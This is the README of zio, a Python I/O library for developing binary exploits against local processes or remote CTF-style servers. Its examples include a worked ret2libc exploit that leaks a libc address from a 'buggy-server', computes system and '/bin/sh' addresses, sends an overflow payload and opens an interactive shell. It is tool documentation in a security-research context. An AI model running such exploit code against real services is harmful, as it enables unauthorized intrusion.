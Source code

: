
# zio

[![Build Status](https://travis-ci.org/zTrix/zio.png)](https://travis-ci.org/zTrix/zio)

[zio] is an easy-to-use io library for pwning development, supporting an unified interface for local process pwning and TCP socket io.

The primary goal of [zio] is to provide unified io interface between process stdin/stdout and TCP socket io. So when you have done local pwning development, you only need to change the io target to pwn the remote server.

The following code illustrate the basic idea.

```python
from zio import *

# io = zio('./buggy-server')            # used for local pwning development
# io = zio(('1.2.3.4', 1337))           # used to exploit remote service

io.write(your_awesome_ropchain_or_shellcode)
# hey, we get a shell!
io.interact()
```

## Examples
 
```python
from zio import *
io = zio('./buggy-server')
# io = zio((pwn.server, 1337))

for i in xrange(1337):
    io.writeline('add ' + str(i))
    io.read_until('>>')

io.write("add TFpdp1gL4Qu4aVCHUF6AY5Gs7WKCoTYzPv49QSa\ninfo " + "A" * 49 + "\nshow\n")
io.read_until('A' * 49)
libc_base = l32(io.read(4)) - 0x1a9960
libc_system = libc_base + 0x3ea70
libc_binsh = libc_base + 0x15fcbf
payload = 'A' * 64 + l32(libc_system) + 'JJJJ' + l32(libc_binsh)
io.write('info ' + payload + "\nshow\nexit\n")
io.read_until(">>")
# We've got a shell;-)
io.interact()
```

## Document

### about line break and carriage return

Just don't read '\n' or '\r', use `readline()` instead

## Thanks (Also references)

 - [pexpect](https://github.com/pexpect/pexpect) I borrowed a lot of code from here
 - [sh](https://github.com/amoffat/sh)
 - python subprocess module
 - TTY related
   - http://linux.die.net/man/3/cfmakeraw
   - http://marcocorvi.altervista.org/games/lkpe/tty/tty.htm
   - http://www.linusakesson.net/programming/tty/

## TODO

 - add attach_gdb function


[zio]:https://github.com/zTrix/zio
